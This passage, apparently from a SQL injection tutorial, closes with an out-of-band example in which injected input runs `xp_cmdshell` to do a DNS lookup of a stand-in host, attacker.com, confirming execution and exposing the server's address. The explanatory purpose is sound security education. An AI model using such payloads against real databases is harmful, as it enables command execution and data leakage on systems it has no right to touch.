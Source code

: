     ```sql
    SELECT title FROM products WHERE id = '1'; EXEC xp_cmdshell('nslookup attacker.com');--';
    ```
    
3. **Explanation:**
    
    * `1; EXEC xp_cmdshell('nslookup`[`attacker.com`](http://attacker.com)`');--` is a malicious input.
        
    * `EXEC xp_cmdshell('nslookup`[`attacker.com`](http://attacker.com)`')` executes a system command to perform a DNS lookup to [`attacker.com`](http://attacker.com).
        
    * The attacker's server can log this request, revealing that the payload was executed.
        
4. **Result:**
    
    The attacker's server receives a DNS request, confirming the injection was successful and revealing the database server's IP address.
    

### Conclusion

SQL injection attacks exploit vulnerabilities in web applications to execute unauthorized SQL commands. Understanding the different types of SQL injection and their techniques is crucial for securing web applications.

It is important to follow the best practices, so that developers can mitigate the risk of SQL injection attacks and protect sensitive data